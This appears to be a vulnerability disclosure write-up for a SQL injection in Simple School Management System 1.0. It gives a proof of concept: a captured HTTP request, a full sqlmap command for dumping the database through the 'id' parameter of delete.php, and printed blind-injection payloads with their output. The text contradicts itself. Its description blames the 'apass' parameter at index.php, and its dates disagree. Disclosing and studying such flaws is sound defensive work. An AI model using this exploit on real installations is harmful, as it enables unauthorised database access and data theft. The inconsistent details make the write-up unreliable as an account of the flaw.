 # Simple School Managment System - SQL Injection - 3
+ **Exploit Title:** Simple School Managment System - SQL Injection - 3
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'apass' parameter at "School/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Login in
+ Click the class button
+ Then click delete-class button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /School/delete.php?id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/add_class.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (3907=3907) THEN 5 ELSE (SELECT 1166 UNION SELECT 1839) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 1380 FROM (SELECT(SLEEP(5)))hKjH)
---
[04:48:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:48:48] [INFO] fetching current database
[04:48:48] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:48:48] [INFO] retrieved: school
current database: 'school'


```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 135203](https://github.com/tubakvgc/CVEs/assets/74067343/a613136a-7054-4af9-9b4d-b9bd106b1a1b)

